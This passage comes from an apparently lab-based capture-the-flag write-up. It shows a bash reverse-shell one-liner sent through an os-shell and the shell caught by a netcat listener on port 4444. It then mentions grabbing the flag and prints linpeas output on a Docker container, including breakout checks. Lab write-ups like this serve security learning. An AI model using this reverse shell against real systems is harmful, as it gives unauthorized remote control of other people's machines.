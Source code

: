 Starting the NetCat Listener on port 4444

```
os-shell> bash -c "bash -i >& /dev/tcp/10.10.14.3/4444 0>&1"
```

```
# nc -lvnp 4444   
listening on [any] 4444 ...
connect to [10.10.14.3] from (UNKNOWN) [10.10.10.236] 62211
bash: cannot set terminal process group (3549): Inappropriate ioctl for device
bash: no job control in this shell
postgres@bc56e3cc55e9:/var/lib/postgresql/11/main$
```

Grab your user flag from `/var/lib/postgresql`. 

### `Privilege Escalation`

I was able to run `linpeas.sh`. Here are the findings.
`LinPeas findings`
```
OS: Linux version 4.14.154-boot2docker (root@08b45408fb99) (gcc version 8.3.0 (Debian 8.3.0-6)) #1 SMP Thu Nov 14 19:19:08 UTC 2019
User & Groups: uid=102(postgres) gid=104(postgres) groups=104(postgres),102(ssl-cert)
Hostname: bc56e3cc55e9

═══════════════════════════════════╣ Container ╠═══════════════════════════════════                                                                                     
                                   ╚═══════════╝                                                                                                                        
╔══════════╣ Container related tools present (if any):
╔══════════╣ Container details                                                                                                                                          
═╣ Is this a container? ........... docker                                                                                                                              
═╣ Any running containers? ........ No
╔══════════╣ Docker Container details                                                                                                                                   
═╣ Am I inside Docker group ....... No                                                                                                                                  
═╣ Looking and enumerating Docker Sockets (if any):
═╣ Docker version ................. Not Found                                                                                                                           
═╣ Vulnerable to CVE-2019-5736 .... Not Found                                                                                                                           
═╣ Vulnerable to CVE-2019-13139 ... Not Found                                                                                                                           
═╣ Vulnerable to CVE-2021-41091 ... Not Found                                                                                                                           
═╣ Rootless Docker? ............... No                                                                                                                                  


╔══════════╣ Container & breakout enumeration
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout                                                                                      
═╣ Container ID ................... bc56e3cc55e9═╣ Container Full ID .............. bc56e3cc55e935cce7f143e7f66ffa471aa8ff2e963bdbbba42512b532f9817d     
═╣ Seccomp enabled? ............... enabled
═╣ AppArmor profile? .............. kernel═╣ User proc namespace? ........... enabled         0          0 4294967295
═╣ Vulnerable to CVE-2019-5021 .... No

══╣ Breakout via mounts
```